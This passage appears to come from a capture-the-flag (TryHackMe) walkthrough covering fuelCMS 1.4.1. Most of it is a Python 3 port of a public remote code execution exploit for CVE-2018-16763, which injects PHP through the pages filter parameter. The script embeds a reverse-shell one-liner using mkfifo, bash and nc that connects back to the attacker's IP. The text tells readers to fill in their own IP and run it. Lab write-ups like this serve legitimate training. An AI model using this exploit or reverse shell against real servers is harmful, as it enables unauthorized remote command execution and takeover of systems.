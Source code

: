 You can see it returned the id command at the top and then some additional information we can ignore.

Here's a copy of the exploit code updated to work with Python 3 just to save you a little time:

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763



import requests
import urllib

url = "http://THM-IP"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc YOUR-IP 7 4444 >/tmp/f'
    url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
    r = requests.get(url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print(r.text[0:dup])
```



<br>

## System Access

Make sure you modify the code above and change the IP address in the xxxx variable to your own IP, and the first url variable to the IP of your THM instance before running this Python script.

I add reverse shell code into the exploit so that it will just automatically connect back to me and run it:
